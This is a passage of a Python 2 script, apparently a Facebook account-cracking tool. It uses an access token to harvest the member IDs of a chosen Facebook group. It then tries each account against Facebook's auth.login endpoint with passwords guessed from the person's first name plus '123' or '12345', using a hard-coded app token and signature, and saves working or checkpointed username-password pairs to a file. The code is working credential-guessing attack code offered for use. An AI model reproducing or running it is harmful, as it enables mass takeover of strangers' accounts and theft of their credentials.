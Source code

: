 	elif peak =="3":
		os.system('reset')
		print logo
		idg=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
		try:
			r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+toket)
			asw=json.loads(r.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
		except KeyError:
			print"\033[1;91m[!] Group not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		jalan('\033[1;91m[✺] \033[1;92mGet group member id \033[1;97m...')
		re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=999999999&access_token='+toket)
		s=json.loads(re.text)
		for p in s['data']:
			id.append(p['id'])
	elif peak =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong input"
		pilih_super()
		
	print "\033[1;91m[+] \033[1;92mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print 42*"\033[1;97m═"
	
			
	##### crack #####
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			#Pass1
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name']+'123'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass1+" =>"+z['name'])
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					cek = open("out/super_cp.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					#Pass2
					pass2 = b['first_name']+'12345'
